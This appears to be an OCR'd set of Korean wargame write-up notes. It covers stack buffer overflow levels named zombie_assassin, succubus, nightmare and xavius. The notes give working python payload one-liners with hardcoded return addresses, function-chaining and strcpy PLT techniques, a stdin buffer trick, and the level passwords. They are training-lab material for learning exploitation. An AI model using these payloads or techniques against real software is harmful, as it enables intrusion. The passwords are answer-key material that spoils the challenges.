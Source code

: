 eip = ebp + 4

[zombie_assassin] `python -c 'print "A" * 44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "A" * 4 + "\x08\xfc\xff\xbf" + "/bin/sh\x00"'`

payload: Dummy(40) + SFP(4) + DO(4) + GYE(4) + GUL(4) + YUT(4) + MO(4) + Dummy(4) + /bin/sh 주소 + “/bin/sh\x00” 

함수 주소 다음 위치는 함수가 종료되었을 때 실행되는 부분이기에 (함수1 주소) + (함수2 주소) 하면 함수1 실행 후 함수2가 실행된다. 

pwd: here to stay

DO = 0x80487ec
GYE = 0x80487bc
GUL = 0x804878c
YUT = 0x804875c
MO = 0x8048724

[succubus] 

PLT 공격 
Return 부분을 strcpy 주소로 채운 후 AAAA가 쓰여지게 된다. 이후 strcpy의 ret을 활용하여 source를 destination에 copy시켜 시스템 함수를 실행시킨다. 즉, source 부분에 시스템 함수가 쓰여진 주소를 입력하고 destination 부분에는 AAAA가 위치한 주소를 입력해준다. 

pwd: beg for me

payload: Dummy(40) + SFP(4) + strcpy_addr(4) + Dummy(4) + arg1(4)(48번째 주소) + arg2(4)(system 함수 쓰인 주소) + system(4)(함수 주소) 

Payload: Dummy(40) + SFP(4) + strcpy_addr(4) + Dummy(4) + arg1(4)(48번째 주소) + arg2(4)(SHELLCODE 환경변수)

./nightmare “`python -c 'print "\x90" * 44 + "\x10\x84\x04\x08" + "A" * 4 +"A" * 4 + "\xb0\xfb\xff\xbf"+"\x14\xfe\xff\xbf"'`" 

Strcpy addr: 0x08048410

[nightmare] (python -c ‘print “SHELLCODE” + "\x90" * 19 +"\x00\x50\x01\x40"'; cat) | ./xavius

pwd: throw me away

STDIN 공격 
Stdin 을 할 때 임시 버퍼가 존재한다. 임시 버퍼 주소를 구하여 return 주소에 넣어주자. 

x/10wx stdin 

임시 버퍼 주소: 0x40015000

[xavius] 
Remote Exploit 공격 







